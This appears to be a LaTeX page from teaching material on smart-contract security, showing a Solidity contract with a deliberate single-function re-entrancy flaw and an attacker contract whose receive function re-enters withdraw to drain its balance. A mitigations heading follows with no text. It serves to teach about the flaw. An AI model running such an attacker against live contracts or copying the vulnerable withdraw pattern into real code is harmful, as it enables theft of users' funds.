 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
    \begin{lstlisting}[language=Solidity, caption=Single-Function Re-Entrancy --- Vulnerable Contract]
contract Victim {
    mapping(address => uint) private balances;
 
    function withdraw() public {
        uint amount = balances[msg.sender];
        
        // Send the funds to the caller using low-level call
        // VULNERABILITY: This external call can be exploited to re-enter the contract
        (bool success, ) = msg.sender.call{value: amount}("");
        
        require(success);
        
        // Update the state AFTER the external call (too late!)
        // This should happen BEFORE the external call to prevent re-entrancy
        balances[msg.sender] = 0;
    }
 
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
}
\end{lstlisting}
\end{minipage}

\noindent
\begin{minipage}{\textwidth}
    \begin{lstlisting}[language=Solidity, caption=Single-Function Re-Entrancy --- Attacker Contract]
  contract Attacker {
      Victim victim;
      uint256 private initialDeposit;
  
      constructor(address _vulnerable) {
          victim = Victim(_vulnerable);
      }
  
      function attack() public payable {
          initialDeposit = msg.value;
          victim.deposit{value: msg.value}();
          victim.withdraw();
      }

      // Fallback function that gets triggered when the victim contract sends ETH
      receive() external payable {
          if (address(victim).balance > initialDeposit) {
            // Re-enter the withdraw function before the victim updates its state
            // This allows us to withdraw the same funds multiple times
            victim.withdraw();
          }
      }
  }
\end{lstlisting}
\end{minipage}

\subsection{Re-Entrancy Mitigations}
\end{document}
